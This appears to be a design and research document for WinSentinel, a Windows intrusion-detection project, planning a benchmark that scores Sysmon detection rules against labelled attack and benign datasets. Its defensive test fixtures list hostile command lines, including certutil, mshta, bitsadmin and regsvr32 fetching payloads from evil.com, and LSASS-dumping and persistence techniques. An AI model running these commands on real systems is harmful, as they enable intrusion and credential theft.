

# Phase 7: False-Positive & Rule Evaluation Engine - Research

**Date:** 2026-11-05  
**Author:** Phase 7 Researcher / WinSentinel Core Team  
**Status:** Complete & Approved for Planning  

---

## 1. Executive Summary & Problem Formulation

In host-based intrusion detection and forensic analysis, detection rules are double-edged swords: overly permissive rules trigger deluge alert fatigue (swamping SOC analysts with false positives), while overly constrained rules fail to catch evasive attacker tradecraft (causing false negatives). WinSentinel requires a **scientific, offline-first evaluation harness** to quantitatively benchmark detection rules against curated ground-truth datasets.

### Core Objectives
1. **Benchmark Evaluation Runner (`EvaluationRunner`)**: Execute loaded Sigma-style detection rules (`DetectionRule`) and threat analyzers against labeled ground-truth datasets without mutating production SQLite databases or requiring live Windows endpoints.
2. **Curated Ground-Truth Datasets**:
   - `attacks.jsonl`: Synthetic and curated attack telemetry representing the 16 core Sysmon detection rules (EID 1, 6, 7, 8, 10, 12, 13, 14, 22).
   - `benign_admin_noise.jsonl`: Realistic administrative noise (SCCM/MECM deployments, Windows Update agent runs, VS Code / MSBuild compiles, IT PowerShell diagnostics, signed driver loads, routine maintenance) that must yield **0 false positives**.
3. **Confusion Matrix & Efficacy Metrics**: Calculate True Positives (TP), False Positives (FP), True Negatives (TN), False Negatives (FN), Precision, Recall, F1-Score, False-Positive Rate (FPR), and Accuracy at per-event granularity with mathematically sound zero-division policies.
4. **Automated Tuning Recommendations (`RuleTuner`)**: Analyze evaluation outcomes to flag dead rules (zero hits across corpus), noisy rules ($\text{FPR} > 5\%$ or $\text{Precision} < 80\%$), and synthesize candidate Sigma suppression filters by profiling common attributes among false positive events.
5. **Reporting & CLI Interface**: Provide programmatic APIs, exportable JSON reports, formatted Markdown summaries, and a command-line interface (`python -m app.evaluation.cli`) with CI/CD quality gate enforcement.

---

## 2. Benchmark Event Dataset Format & Schema Design

### 2.1 Dataset Architecture
To preserve strict separation of concerns, the benchmark dataset format uses a nested JSON Lines (`.jsonl`) structure where each line contains:
1. `label`: Ground-truth annotations (`BenchmarkLabel`) specifying maliciousness, expected rule IDs, attack scenario, and MITRE ATT&CK techniques.
2. `event`: Normalized event payload conforming to `NormalizedEvent`.

```json
{
  "label": {
    "is_malicious": true,
    "expected_rules": ["WS-SYS-001"],
    "scenario": "certutil_download_lolbin",
    "description": "Certutil downloading remote executable payload using -urlcache -split flags",
    "mitre_attack": ["T1105"]
  },
  "event": {
    "event_id": 1,
    "provider": "Microsoft-Windows-Sysmon",
    "channel": "Microsoft-Windows-Sysmon/Operational",
    "computer": "WORKSTATION-01.corp.internal",
    "timestamp": "2026-11-04T12:00:00.000000Z",
    "event_category": "PROCESS",
    "event_type": "ProcessCreate",
    "image": "C:\\Windows\\System32\\certutil.exe",
    "command_line": "certutil.exe -urlcache -split -f http://evil.com/beacon.exe C:\\ProgramData\\beacon.exe",
    "user": "CORP\\jdoe",
    "process_guid": "{11111111-2222-3333-4444-555555555555}",
    "process_id": 4120,
    "parent_image": "C:\\Windows\\System32\\cmd.exe",
    "parent_command_line": "cmd.exe",
    "raw_payload": "{\"Image\":\"C:\\\\Windows\\\\System32\\\\certutil.exe\"}",
    "event_hash": "a1b2c3d4e5f60718293a4b5c6d7e8f90"
  }
}
```

### 2.2 Data Models (`app/models/evaluation.py`)

```python
from __future__ import annotations

from datetime import datetime, timezone
from enum import Enum
from typing import Any
from pydantic import BaseModel, ConfigDict, Field

from app.models.events import NormalizedEvent, EventCategory


class BenchmarkLabel(BaseModel):
    """Ground truth annotation metadata for benchmark events."""

    model_config = ConfigDict(frozen=True)

    is_malicious: bool = False
    expected_rules: list[str] = Field(default_factory=list)
    scenario: str = Field(default="", description="Short identifier for attack or benign scenario")
    description: str = Field(default="", description="Human-readable description of the behavior")
    mitre_attack: list[str] = Field(default_factory=list, description="MITRE ATT&CK technique IDs")


class BenchmarkEvent(BaseModel):
    """Pairing of a normalized Windows event with ground truth benchmark annotations."""

    model_config = ConfigDict(frozen=True)

    event: NormalizedEvent
    label: BenchmarkLabel
```

### 2.3 Ergonomic Dataset Ingestion & Auto-Defaults (`BenchmarkDatasetLoader`)
Because authoring raw JSON fixtures manually can be tedious, the loader must:
1. Support both strict fully-populated `NormalizedEvent` dictionaries and lightweight synthetic events where standard plumbing fields (`channel`, `computer`, `timestamp`, `event_category`, `event_type`, `raw_payload`, `event_hash`) are auto-populated if omitted.
2. Auto-derive `event_category` from `event_id` and `provider` if missing:
   - Sysmon EID 1 $\rightarrow$ `PROCESS` (`ProcessCreate`)
   - Sysmon EID 6 $\rightarrow$ `DRIVER` (`DriverLoad`)
   - Sysmon EID 7 $\rightarrow$ `IMAGE_LOAD` (`ImageLoaded`)
   - Sysmon EID 8 $\rightarrow$ `REMOTE_THREAD` (`CreateRemoteThread`)
   - Sysmon EID 10 $\rightarrow$ `PROCESS_ACCESS` (`ProcessAccess`)
   - Sysmon EID 12, 13, 14 $\rightarrow$ `REGISTRY` (`RegistryEvent`)
   - Sysmon EID 22 $\rightarrow$ `DNS` (`DnsQuery`)
3. Auto-generate `raw_payload` (JSON serialization of present fields) and `event_hash` (deterministic MD5/SHA256 of the payload) if not explicitly supplied.
4. Support line-by-line streaming from `.jsonl` files and multi-dataset merging.

---

## 3. Benchmark Dataset Fixture Specifications

### 3.1 Attack Telemetry Dataset (`tests/data/benchmarks/attacks.jsonl`)
Must contain high-fidelity test records systematically exercising all 16 core Sysmon rules:

| Rule ID | Rule Title | Sysmon EID | Key Telemetry Trigger Fields | ATT&CK ID |
|---------|------------|------------|------------------------------|-----------|
| `WS-SYS-001` | Suspicious Certutil Download | 1 | `image`: `*certutil.exe`, `command_line`: `-urlcache -split -f http://evil.com/payload.exe` | T1105 |
| `WS-SYS-002` | Suspicious Mshta Remote Execution | 1 | `image`: `*mshta.exe`, `command_line`: `mshta.exe vbscript:GetObject("script:http://evil.com/s.sct")` | T1218.005 |
| `WS-SYS-003` | BITSAdmin Job Download | 1 | `image`: `*bitsadmin.exe`, `command_line`: `bitsadmin.exe /transfer myJob /download /priority high http://evil.com/b.exe C:\Temp\b.exe` | T1197 |
| `WS-SYS-004` | UAC Bypass via Fodhelper | 1 | `parent_image`: `*fodhelper.exe`, `image`: `C:\Windows\System32\cmd.exe` | T1548.002 |
| `WS-SYS-005` | Rundll32 Suspicious Execution | 1 | `image`: `*rundll32.exe`, `command_line`: `rundll32.exe C:\Users\victim\AppData\Local\Temp\beacon.dll,StartW` | T1218.011 |
| `WS-SYS-006` | Whoami Reconnaissance | 1 | `image`: `*whoami.exe`, `command_line`: `whoami.exe /priv` | T1033 |
| `WS-SYS-007` | Regsvr32 Squiblydoo Remote Script | 1 | `image`: `*regsvr32.exe`, `command_line`: `regsvr32.exe /s /n /u /i:http://evil.com/pay.sct scrobj.dll` | T1218.010 |
| `WS-SYS-008` | Remote Thread Injection into LSASS | 8 | `source_image`: `C:\Temp\injector.exe`, `target_image`: `C:\Windows\System32\lsass.exe` | T1055.001 |
| `WS-SYS-009` | Remote Thread into Sensitive Process | 8 | `source_image`: `C:\Temp\beacon.exe`, `target_image`: `C:\Windows\explorer.exe` | T1055.002 |
| `WS-SYS-010` | Suspicious LSASS GrantedAccess | 10 | `source_image`: `C:\Temp\dump.exe`, `target_image`: `*lsass.exe`, `granted_access`: `0x1010` | T1003.001 |
| `WS-SYS-011` | Mimikatz Sekurlsa Call Trace | 10 | `source_image`: `C:\Temp\mimi.exe`, `target_image`: `*lsass.exe`, `call_trace`: `C:\Temp\sekurlsa.dll+1234` | T1003.001 |
| `WS-SYS-012` | Unsigned or Untrusted Driver Loaded | 6 | `image_loaded`: `C:\Windows\System32\drivers\gdrv.sys`, `signed`: `"false"`, `signature_status`: `"revoked"` | T1068 |
| `WS-SYS-013` | DLL Loaded from Temp Directory | 7 | `image_loaded`: `C:\Users\victim\AppData\Local\Temp\payload.dll`, `signed`: `"false"` | T1574.002 |
| `WS-SYS-014` | Registry Run Key Persistence | 12 | `registry_target_object`: `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\Updater`, `registry_details`: `C:\Temp\run.exe` | T1547.001 |
| `WS-SYS-015` | IFEO Debugger Persistence | 14 | `registry_target_object`: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe\Debugger`, `registry_details`: `cmd.exe` | T1546.012 |
| `WS-SYS-016` | Suspicious Dynamic DNS Query | 22 | `query_name`: `c2server.duckdns.org`, `query_status`: `0` | T1071.004 |

### 3.2 Benign Administrative Noise Dataset (`tests/data/benchmarks/benign_admin_noise.jsonl`)
Must simulate real-world Windows enterprise background noise specifically designed to test exclusion filters and produce **0 false alarms** across all 16 rules:
1. **SCCM / MECM Client Operations**:
   - `C:\Windows\CCM\CcmExec.exe` spawning PowerShell or certutil for certificate verification (command line: `certutil.exe -verify -urlcache cert.cer` without split/evil flags).
   - Package downloads via BITS from internal distribution points (`bitsadmin /transfer CCMJob /priority normal http://sccm.corp.internal/...`).
2. **Windows Update & Component Servicing**:
   - `TiWorker.exe` and `TrustedInstaller.exe` loading signed temporary DLLs in `C:\Windows\Temp\` with `signed: "true"`.
   - Windows Defender Antivirus signatures loading in `C:\ProgramData\Microsoft\Windows Defender\Platform\...`.
3. **Developer Tools & Compilers**:
   - Visual Studio `devenv.exe` and `msbuild.exe` compiling C# projects, creating DLLs in project `bin\Debug\net8.0\`.
   - Git operations (`git.exe fetch`, `ssh.exe`).
4. **Legitimate Administrative Diagnostics**:
   - Interactive admin running `whoami.exe` (without `/priv` or `/all`, or with `/user`).
   - Domain GPO refresh: `gpupdate.exe /force`.
   - Network diagnostics: `ping.exe`, `nslookup.exe corp.internal` querying internal DNS domain controllers.
5. **Legitimate System Access & Driver Loads**:
   - Task Manager `taskmgr.exe` opening handle to `lsass.exe` with `granted_access: 0x1410` (specifically filtered by `WS-SYS-010`'s exclusion filter).
   - `svchost.exe` accessing `lsass.exe` (filtered by `WS-SYS-010`).
   - Microsoft WHQL signed hardware drivers (`signed: "true"`, `signature_status: "Valid"`).
   - Routine Run key read/queries from explorer (`registry_event_type: "QueryValue"`).

---

## 4. Confusion Matrix Formulation & Mathematical Metrics

### 4.1 Per-Event Binary Classification Model
Let the benchmark corpus comprise $N$ events: $\mathcal{E} = \{e_1, e_2, \dots, e_N\}$.  
Let $\mathcal{R} = \{R_1, R_2, \dots, R_K\}$ be the evaluated rule set.

For each rule $R \in \mathcal{R}$ and event $e \in \mathcal{E}$:
- Ground-truth indicator:
  $$y(R, e) = \begin{cases} 1 & \text{if } R.\text{id} \in e.\text{label}.\text{expected\_rules} \\ 0 & \text{otherwise} \end{cases}$$
- Detection output indicator:
  $$\hat{y}(R, e) = \begin{cases} 1 & \text{if rule } R \text{ triggered a match on event } e \\ 0 & \text{otherwise} \end{cases}$$

Four fundamental outcomes are defined for rule $R$ on event $e$:
- **True Positive (TP)**: $y(R, e) = 1 \land \hat{y}(R, e) = 1$
- **False Positive (FP)**: $y(R, e) = 0 \land \hat{y}(R, e) = 1$
- **True Negative (TN)**: $y(R, e) = 0 \land \hat{y}(R, e) = 0$
- **False Negative (FN)**: $y(R, e) = 1 \land \hat{y}(R, e) = 0$

Summing over the corpus:
$$TP(R) = \sum_{i=1}^N \mathbb{I}(y(R, e_i) = 1 \land \hat{y}(R, e_i) = 1)$$
$$FP(R) = \sum_{i=1}^N \mathbb{I}(y(R, e_i) = 0 \land \hat{y}(R, e_i) = 1)$$
$$TN(R) = \sum_{i=1}^N \mathbb{I}(y(R, e_i) = 0 \land \hat{y}(R, e_i) = 0)$$
$$FN(R) = \sum_{i=1}^N \mathbb{I}(y(R, e_i) = 1 \land \hat{y}(R, e_i) = 0)$$

Invariant: $TP(R) + FP(R) + TN(R) + FN(R) = N$ for every rule $R$.

### 4.2 Engine-Level (Global Telemetry) Confusion Matrix
In addition to evaluating each rule in isolation, WinSentinel calculates an **Engine-Level Confusion Matrix** evaluating overall binary incident triage (is malicious telemetry caught? is benign telemetry ignored?):
- Event Ground Truth: $Y(e) = \mathbb{I}(e.\text{label}.\text{is\_malicious} == \text{True})$
- Engine Trigger: $\hat{Y}(e) = \mathbb{I}(\text{at least one rule } R \in \mathcal{R} \text{ matched } e)$

$$\text{Engine TP} = \sum_{i=1}^N \mathbb{I}(Y(e_i) = 1 \land \hat{Y}(e_i) = 1)$$
$$\text{Engine FP} = \sum_{i=1}^N \mathbb{I}(Y(e_i) = 0 \land \hat{Y}(e_i) = 1)$$
$$\text{Engine TN} = \sum_{i=1}^N \mathbb{I}(Y(e_i) = 0 \land \hat{Y}(e_i) = 0)$$
$$\text{Engine FN} = \sum_{i=1}^N \mathbb{I}(Y(e_i) = 1 \land \hat{Y}(e_i) = 0)$$

### 4.3 Mathematical Metrics & Zero-Division Policies

| Metric | Mathematical Formula | Zero-Division Handling Policy | Rationale |
|--------|----------------------|--------------------------------|-----------|
| **Precision** | $\frac{TP}{TP + FP}$ | If $TP + FP = 0$: <br>• $1.0$ if $FP = 0$<br>• $0.0$ if $FP > 0$ | A rule that produces zero alarms has produced 0 false positives. It should not be penalized for precision if tested on benign traffic. |
| **Recall** | $\frac{TP}{TP + FN}$ | If $TP + FN = 0$: <br>• $1.0$ if $FN = 0$<br>• $0.0$ if $FN > 0$ | If no targets existed in the dataset, the rule did not miss any targets. |
| **F1-Score** | $2 \cdot \frac{\text{Precision} \cdot \text{Recall}}{\text{Precision} + \text{Recall}}$ | If $\text{Precision} + \text{Recall} = 0$: <br>• $0.0$ | Harmonic mean is undefined if both terms are zero. |
| **False Positive Rate (FPR)** | $\frac{FP}{FP + TN}$ | If $FP + TN = 0$: <br>• $0.0$ | If there were no negative events in the dataset, FPR is 0.0. |
| **Accuracy** | $\frac{TP + TN}{TP + TN + FP + FN}$ | If $\text{Total} = 0$: <br>• $0.0$ | Undefined on empty corpus. |

---

## 5. Automated Rule Tuning Heuristics & Suppression Synthesis

The `RuleTuner` inspects calculated metrics and forensic evidence from false positive matches to produce actionable recommendations.



### 5.1 Heuristic Classifications
1. **Dead Rule (`ZERO_COVERAGE`)**:
   - Condition: $TP = 0 \land FP = 0$.
   - Classification:
     - If $FN > 0$: Severity `HIGH` (`DEFECTIVE_RULE` — expected attacks were missed).
     - If $FN = 0$: Severity `LOW` (`UNTESTED_RULE` — no attack telemetry present in dataset for this rule).
2. **Noisy Rule (`HIGH_FALSE_POSITIVE_RATE`)**:
   - Condition: $\text{FPR} > 0.05$ (5%) or $\text{Precision} < 0.80$ (80%).
   - Severity: `HIGH` (immediate risk of alert fatigue).
3. **High Confidence (`HIGH_EFFICACY`)**:
   - Condition: $\text{Precision} = 1.0 \land \text{Recall} = 1.0 \land \text{FPR} = 0.0$ on target test suites.

### 5.2 Suppression Candidate Synthesis Algorithm
When a rule produces $FP > 0$:
1. Collect all false-positive events $\mathcal{E}_{FP}(R) = \{e \in \mathcal{E} \mid y(R, e) = 0 \land \hat{y}(R, e) = 1\}$.
2. Extract candidate suppression fields:
   - `parent_image`
   - `image`
   - `user`
   - `current_directory`
   - `signer`
   - `signature_status`
3. For each candidate field, count occurrences of each distinct value across $\mathcal{E}_{FP}(R)$.
4. If a field value appears in $\ge 60\%$ of the false positive events:
   - Formulate a recommended Sigma suppression block:
     ```yaml
     filter_<field>:
       <field>|endswith: '<value>'
     ```
   - Suggest updating rule condition:
     ```yaml
     condition: selection and not filter_<field>
     ```

---

## 6. Execution Runner & CLI Architecture

### 6.1 `EvaluationRunner` Workflow
```python
class EvaluationRunner:
    """Executes detection rules against benchmark datasets and collects evaluation metrics."""

    def __init__(
        self,
        engine: DetectionEngine | None = None,
        rule_loader: RuleLoader | None = None,
        tuner: RuleTuner | None = None,
    ) -> None:
        self.engine = engine or DetectionEngine()
        self.loader = rule_loader or RuleLoader()
        self.tuner = tuner or RuleTuner()

    def evaluate(
        self,
        dataset: list[BenchmarkEvent],
        rules: list[DetectionRule],
        dataset_name: str = "benchmark",
    ) -> EvaluationReport:
        # 1. Register rules in engine
        # 2. Iterate events, track per-rule and global TP, FP, TN, FN
        # 3. Calculate metrics via ConfusionMatrixCalculator
        # 4. Run RuleTuner heuristics
        # 5. Package into EvaluationReport
        ...
```

### 6.2 CLI Design (`app/evaluation/cli.py`)
Invocation:
```bash
python -m app.evaluation.cli --rules rules/sysmon --dataset tests/data/benchmarks/attacks.jsonl --output-json report.json --output-md report.md
```

Options:
- `-r, --rules`: Path to directory or single YAML rule file (default: `rules/sysmon`).
- `-d, --dataset`: Path to JSONL benchmark dataset (repeatable for multiple datasets).
- `-o, --output-json`: File path to write full evaluation JSON report.
- `-m, --output-md`: File path to write Markdown summary table.
- `--fail-on-fp`: Exit with return code `1` if any false positive is detected (CI gate).
- `--min-precision`: Minimum precision threshold float (e.g. `0.90`).
- `--min-recall`: Minimum recall threshold float (e.g. `1.0`).
- `--quiet / -v, --verbose`: Output verbosity control.

---

## 7. Plan Breakdown & Implementation Roadmap

Phase 7 is scoped into two clean, self-contained plans:

### Plan 07-01: Labeled Benchmark Datasets, Data Models, and Confusion Matrix Calculator
- **Components to build**:
  1. `app/models/evaluation.py`: Pydantic models for `BenchmarkLabel`, `BenchmarkEvent`, `ConfusionMatrix`, `RuleEvaluationMetrics`, `TuningRecommendation`, `EvaluationReport`.
  2. `app/evaluation/metrics.py`: Mathematical calculator (`ConfusionMatrixCalculator`) implementing precision, recall, F1, FPR, accuracy, and robust zero-division handling.
  3. `app/evaluation/loader.py`: Benchmark dataset loader parsing JSONL files with schema validation, smart auto-defaults, and batch loading.
  4. Curated Datasets:
     - `tests/data/benchmarks/attacks.jsonl`: 16+ verified attack scenarios covering all 16 Sysmon rules.
     - `tests/data/benchmarks/benign_admin_noise.jsonl`: 20+ realistic benign administrative events (SCCM, Windows Update, dev builds, admin diagnostics, driver loads).
- **Tests**:
  - `tests/unit/test_evaluation_models.py`
  - `tests/unit/test_confusion_matrix.py`
  - `tests/unit/test_benchmark_loader.py`

### Plan 07-02: Evaluation Runner, Tuning Engine, and Benchmark CLI
- **Components to build**:
  1. `app/evaluation/runner.py`: `EvaluationRunner` coordinating rule compilation, candidate rule dispatch, event evaluation loop, and metric aggregation.
  2. `app/evaluation/tuner.py`: `RuleTuner` identifying dead rules, alert fatigue risks, and synthesizing Sigma suppression filters.
  3. `app/evaluation/reporter.py`: Serializer generating exportable JSON and clean GitHub-flavored Markdown tables.
  4. `app/evaluation/cli.py`: Click/Argparse CLI executable with CI/CD threshold checking and exit codes.
- **Tests**:
  - `tests/unit/test_rule_tuner.py`
  - `tests/unit/test_evaluation_reporter.py`
  - `tests/integration/test_evaluation_runner.py`
  - `tests/integration/test_evaluation_cli.py`
  - `tests/integration/test_benign_suppression.py` (verifying 0 FP on benign dataset).

---

## 8. Requirement Traceability Matrix

| Requirement | Plan | Files / Components | Verification Method |
|-------------|------|--------------------|---------------------|
| **EVAL-01** | Plan 07-01, 07-02 | `app/evaluation/loader.py`, `app/evaluation/runner.py` | Unit & integration tests loading JSONL files and running rules against benchmark events. |
| **EVAL-02** | Plan 07-01 | `app/evaluation/metrics.py`, `ConfusionMatrixCalculator` | Unit tests checking TP, FP, TN, FN accuracy, zero-division edges, and matrix invariants. |
| **EVAL-03** | Plan 07-01, 07-02 | `app/evaluation/metrics.py`, `app/evaluation/reporter.py` | Unit tests verifying Precision, Recall, F1, FPR calculations and JSON/Markdown export. |
| **EVAL-04** | Plan 07-01, 07-02 | `tests/data/benchmarks/benign_admin_noise.jsonl`, `test_benign_suppression.py` | Automated test suite verifying 0 false positives (FPR = 0.0%) across all 16 Sysmon rules against benign noise. |

---

*Research complete. The technical design is verified and ready for execution planning.*
